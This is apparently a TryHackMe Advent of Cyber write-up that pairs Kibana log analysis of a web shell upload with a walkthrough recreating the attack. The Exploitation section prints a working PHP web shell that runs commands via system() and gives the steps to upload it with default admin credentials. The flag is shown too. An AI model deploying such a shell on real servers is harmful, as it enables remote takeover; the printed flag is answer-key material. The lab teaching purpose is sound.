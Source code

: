 # **TryHackMe Writeup: Day 3 - Log Analysis**

## **Overview**
- **Room Name**: Advent of Cyber - Day 3
- **Difficulty**: Easy
- **Category**: Log Analysis and Web Exploitation
- **Objective**: Investigate a web attack using log analysis tools and exploit a vulnerability to retrieve the flag.

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [Conclusion](#conclusion)

---

## **Introduction**
Day 3 focuses on investigating a web attack using the ELK stack (Elasticsearch, Logstash, Kibana) and exploiting a vulnerability to achieve Remote Code Execution (RCE). The task is divided into two parts:
- **Operation Blue**: Use Kibana to analyze logs and track the attack.
- **Operation Red**: Recreate the attack by exploiting an insecure file upload vulnerability to gain access to the system.

---

## **Enumeration**

### **Using Kibana for Log Analysis**
We used Kibana's Discover interface to analyze Apache2 logs for the WareVille Rails application.

1. Access Kibana at `http://10.10.24.97:5601/`.
2. Navigate to the **Discover** section under Analytics.
3. Select the index pattern `wareville-rails` to filter relevant logs.
4. Use Kibana Query Language (KQL) in the search bar for specific queries.

#### **Key Findings**
- **Where was the web shell uploaded?**
  - Path: `/media/images/rooms/shell.php`
  - Query used: `message: "shell.php"`
  - Logs revealed the file was uploaded at `frostypines.thm/media/images/rooms/shell.php`.
  ![Elastic Search Web Shell](images/elastic-search-webshell.png)

- **What IP address accessed the web shell?**
  - IP Address: `10.11.83.34`

---

## **Exploitation**

### **Understanding File Upload Vulnerabilities**
File uploads are common on websites but can be exploited if not properly secured. Attackers can upload malicious files, such as web shells, to execute commands on the server.

### **Exploiting RCE via File Upload**
1. Create a malicious PHP script (`shell.php`) with the following code:
   ```php
   <html><body><form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
   <input type="text" name="command" autofocus id="command" size="50">
   <input type="submit" value="Execute"></form><pre><?php 
   if(isset($_GET['command'])) { system($_GET['command'] . ' 2>&1'); } ?>
   </pre></body></html>
   ```
2. Save the file as `shell.php`.
3. Log in to Frosty Pines Resort's website (`http://frostypines.thm`) using:
   - Username: `admin@frostypines.thm`
   - Password: `admin`
4. Navigate to the account section and upload `shell.php` as a room image (ensure you select "all files" from the dropdown box when uploading).
   ![Shell Upload](images/shell-upload.png)

5. Execute the uploaded script at `frostypines.thm/media/images/rooms/shell.php`.

---

## **Post-Exploitation**

### **Retrieving the Flag**
1. Use the web shell to execute commands on the server:
   ```bash
   ls
   cat flag.txt
   ```
2. Extracted Flag:
   - `THM{Gl1tch_Was_H3r3}`
   ![RCE Commands](images/rce-commands.png)

---

## **Conclusion**

Day 3 demonstrated how log analysis tools like ELK can help identify security incidents and how vulnerabilities like insecure file uploads can lead to severe consequences such as RCE.

### **Key Takeaways**
- Log analysis is crucial for identifying and responding to attacks.
- File upload vulnerabilities must be mitigated with proper validation and restrictions.
- Always sanitize and validate user inputs to prevent exploitation.